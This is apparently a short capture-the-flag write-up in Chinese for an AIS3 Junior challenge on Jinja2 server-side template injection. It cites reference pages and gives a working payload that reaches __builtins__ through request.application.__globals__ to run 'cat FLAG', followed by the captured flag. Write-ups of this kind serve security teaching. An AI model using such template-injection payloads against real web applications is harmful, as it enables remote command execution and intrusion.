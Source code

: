 ### STI02
參考資料: 
* https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#without-several-chars
* https://ithelp.ithome.com.tw/articles/10244403

![image](https://hackmd.io/_uploads/HJBl8z6q0.png)

從全域物件中獲取任何函數，可存取`__globals__.__builtins__`，實現RCE


payload:`{{request.application.__globals__.__builtins__.__import__('os').popen('cat FLAG').read()}}`

![image](https://hackmd.io/_uploads/SkjO8zTqC.png)
>AIS3_Junior{b4by__.filt3rEvasion.__Succ3ss}



